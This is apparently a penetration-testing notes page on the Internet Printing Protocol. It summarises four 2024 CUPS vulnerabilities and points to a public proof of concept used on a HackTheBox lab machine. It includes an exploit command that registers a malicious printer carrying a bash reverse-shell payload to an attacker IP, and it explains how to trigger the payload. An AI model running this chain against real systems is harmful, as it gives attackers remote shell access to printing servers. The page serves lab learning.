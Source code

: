 ```yaml
---
icon: print
description: Internet Printing Protocol
---
```


# IPP

{% hint style="info" %}
### <mark style="color:orange;">`CUPS`</mark> <mark style="color:purple;">(Common UNIX Printing System)</mark>

* <mark style="color:purple;">It uses</mark> <mark style="color:orange;">**`UDP`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`TCP`**</mark> <mark style="color:purple;">**on Port**</mark> <mark style="color:orange;">**`631`**</mark>

### <mark style="color:purple;">Vulnerabilities</mark>

[<mark style="color:red;">**`CVE-2024-47176`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47176)

* <mark style="color:orange;">**`cups-browsed`**</mark><mark style="color:purple;">, the service that typically listens on all interfaces</mark> <mark style="color:orange;">**`UDP 631`**</mark><mark style="color:purple;">, is what allows adding a printer to a machine remotely. This vulnerability allows any attacker who can reach this machine to trigger a</mark> <mark style="color:orange;">**`“Get-Printer-Attributes” IPP`**</mark> <mark style="color:purple;">request being sent to an attacker-controlled URL.</mark>

[<mark style="color:red;">**`CVE-2024-47076`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47076)

* <mark style="color:orange;">**`libcupsfilters`**</mark> <mark style="color:purple;">is responsible for handling the</mark> <mark style="color:orange;">**`IPP`**</mark> <mark style="color:purple;">attributes returned from the request. These are written to a temporary</mark> <mark style="color:orange;">**`Postscript Printer Description (PPD)`**</mark> <mark style="color:purple;">file without sanitization, allowing malicious attributes to be written.</mark>

[<mark style="color:red;">**`CVE-2024-47175`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47175)

* <mark style="color:orange;">**`libppd`**</mark> <mark style="color:purple;">is responsible for reading a temporary</mark> <mark style="color:orange;">**`PPD`**</mark> <mark style="color:purple;">file and turning that into a printer object on the system. It also doesn’t sanitize when reading, allowing for injection of attacker controlled data.</mark>

[<mark style="color:red;">**`CVE-2024-47177`**</mark>](https://nvd.nist.gov/vuln/detail/CVE-2024-47177)

* <mark style="color:purple;">This vulnerability in</mark> <mark style="color:orange;">**`cups-filters`**</mark> <mark style="color:purple;">allows for loading a printer using the</mark> <mark style="color:orange;">**`foomatic-rip`**</mark> <mark style="color:purple;">print filter, which is a universal converter for transforming PostScript or PDF data into the format that the printer can understand. It has long had issues with command injection, and has been limited to manual installs / configurations only.</mark>

### <mark style="color:orange;">`POC`</mark>

* <mark style="color:purple;">Ippsec has a</mark> [<mark style="color:orange;">**`POC`**</mark>](https://github.com/ippsec/evil-cups) <mark style="color:purple;">that is used on the evilcups machine from HackThebox:</mark>

{% code title="Add the malicious printer" overflow="wrap" %}
```bash
python evil-cups.py 10.10.14.6 10.10.11.40 'nohup bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"&'
```
{% endcode %}

* <mark style="color:purple;">Now, on the server select the the malicious printer and  trigger the option</mark> <mark style="color:orange;">**`Print Test Page`**</mark>
* <mark style="color:purple;">The default path for printed jobs is</mark> <mark style="color:orange;">**`/var/spool/cups`**</mark>
{% endhint %}

